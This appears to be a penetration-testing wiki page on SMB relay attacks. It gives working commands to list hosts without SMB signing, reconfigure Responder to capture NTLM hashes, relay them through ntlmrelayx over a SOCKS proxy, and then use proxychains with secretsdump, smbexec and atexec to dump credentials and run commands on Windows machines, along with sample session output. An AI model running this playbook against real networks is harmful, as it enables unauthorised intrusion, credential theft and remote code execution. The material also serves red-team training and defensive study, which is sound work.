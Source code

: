 # SMBRelay

## Brief

Instead of cracking hashes to find the clear password, you can relay those hashes to specific machines and potentially gain access.&#x20;

{% embed url="https://www.netwrix.com/pass_the_hash_attack_explained.html" %}

**Now, this attack requires two things :**

* **SMB signing must be disabled on the target** (_NOTE: by default, SMB Signing is enabled on all DC servers_)
* **Relayed user credentials must be admin** on the machine (we can't relay the hash to the same machine since MS08-068, and the user we're relaying must have admin rights on the target machine if we want code execution otherwise user access if there's an open-share for example)

## Attack

In order to relay hashes, we must **have valid targets**. Valid targets are, as predescribed, machines with SMB Signing disabled. So to get a list of those valide targets we can use for example CrackMapExec :

```bash
cme smb $network_ip/$cidr --gen-relay-list Targets.txt
# or
nmap --script=smb2-security-mode.nse -p445 $network_ip
```

Now off to **capture the hashes**, but we first need to change a little configuration in the responder.conf file (_/usr/share/responder/responder.conf_) :

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On

# then :
python responder.py -I $interface -rdwv

# pop new shell
# ntlmrelayx to relay the intercepted hashes
ntlmrelayx.py -tf Targets.txt -socks -smb2support

# output should be like :
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       192.168.48.38   VULNERABLE/NORMALUSER3    445
MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433
SMB       192.168.48.230  VULNERABLE/ADMINISTRATOR  445
SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
SMTP      192.168.48.224  VULNERABLE/NORMALUSER3    25
SMTP      192.168.48.224  CONTOSO/NORMALUSER1       25
IMAP      192.168.48.224  CONTOSO/NORMALUSER1       143
```

### Interact with ntmlrelayx sessions

#### Proxychains

```bash
# edit /etc/proxychains.conf
[ProxyList]
socks4 $your_ip 1080
```

#### Retrieve hashes

```bash
proxychains ./secretsdump.py $domain/$username@$ip
# or get code execution
proxychains smbexec.py $domain/$user@$ip
proxychains atexec.py $domain/$user@$ip "<cmd>"
```
